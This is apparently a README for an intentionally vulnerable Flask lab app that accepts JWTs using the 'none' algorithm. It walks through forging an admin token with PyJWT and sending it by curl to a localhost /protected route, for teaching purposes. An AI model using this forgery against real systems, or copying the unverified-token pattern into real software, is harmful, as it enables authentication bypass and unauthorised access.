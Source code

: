 # JWT Token Forgery Vulnerable Web Application  

This project demonstrates a simple Python web application using Flask that is vulnerable to JWT token forgery attacks due to improper implementation of the `none` algorithm.  

## Why It Is Vulnerable
The application incorrectly allows the use of the `none` algorithm, meaning that the token's signature is not verified.  
This makes it possible for an attacker to forge a token without needing the secret key, bypassing authentication entirely.  

## Steps to Launch the App and Test the Vulnerability  

**Install Required Dependencies**  
Make sure you have Flask and PyJWT installed:
```bash
pip install Flask PyJWT
```
 
**Launch Web App**   
Start the vulnerable web application by running:  


```bash
python3 app.py
```  
 
**Simulate Token Retrieval**   
Retrieve a new jwt token for the admin user: 
```bash
curl -X POST http://127.0.0.1:5000/login -H "Content-Type: application/json" -d '{"user": "admin"}'
```  
Use a service like [*jwt.io*](https://jwt.io) to inspect the token:  
![jwtio](./images/jwtio.png)  



 
**Test the Vulnerability**   
Using a tool like `curl` or Postman, attempt to access the `/protected` route with a forged token using the `none` algorithm.  
You can generate the forged token using PyJWT:  


```python
import jwt
forged_token = jwt.encode({"user": "admin"}, key=None, algorithm="none")
print(forged_token)
```  

Send this forged token in the Authorization header:


```bash
curl http://127.0.0.1:5000/protected -H "Authorization: Bearer <FORGED_TOKEN>"
```  
 
**Exploit**   
The application will incorrectly trust the token and provide access to the protected route as the `admin` user, demonstrating how JWT token forgery can bypass authentication.  

### Explanation 
In the `app.py`, the JWT token is decoded without proper signature verification.  
This allows the `none` algorithm to bypass the signature check, effectively allowing an attacker to forge tokens and access restricted routes.  
This PoC highlights the importance of enforcing secure token validation mechanisms in web applications.  